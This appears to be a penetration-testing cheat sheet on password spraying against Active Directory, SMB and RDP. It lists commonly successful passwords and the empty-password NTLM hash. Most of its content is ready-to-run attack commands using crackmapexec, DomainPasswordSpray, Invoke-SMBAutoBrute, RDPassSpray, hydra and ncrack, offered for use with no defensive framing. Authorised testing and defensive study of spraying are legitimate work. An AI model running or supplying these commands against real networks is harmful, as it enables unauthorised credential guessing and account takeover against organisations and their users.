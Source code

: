 ### Password spray attacks use one password against multiple users, usually gathered in a users wordlist.

### They are also preferred from brute-force attacks due to prevention of account lockouts.

## TIP: The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.

#### Tools: hydra, RDPassSpray.py, MailSniper, SprayingToolkit, Metasploit (auxiliary/scanner/smb/smb_login) example

### Most of the time the best passwords to spray are :

 - P@ssw0rd01 , Password123 , Password1 , Hello123 , mimikatz

 - Welcome1 / Welcome01

 - $Companyname1 : $Microsoft1

 - SeasonYear : Winter2019* , Spring2020! , Summer2018? , Summer2020 , July2020!

 - Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)

 - Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)

## Spray a pre-generated passwords list

#### 1) Using crackmapexec and mp64 to generate passwords and spray them against SMB services on the network.

 - crackmapexec smb 10.0.0.1/24 -u Administrator -p '(./mp64.bin Pass@wor?l?a)'

#### 2) Using DomainPasswordSpray to spray a password against all users of a domain https://github.com/dafthack/DomainPasswordSpray

 - Invoke-DomainPasswordSpray -Password Summer2021! (Automatically creates a userlist from the users in the domain and sprays the password)

 - Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

#### 3) SMBAutoBrute https://github.com/Shellntel/scripts/blob/master/Invoke-SMBAutoBrute.ps1

 - Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1"

## Spray passwords against the RDP service

#### 1) Using RDPassSpray to target RDP services https://github.com/xFreed0m/RDPassSpray

 - python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]

#### 2) Hydra

 - hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://IP_ADDRESS

#### 3) ncrack

 - ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://IP_ADDRESS



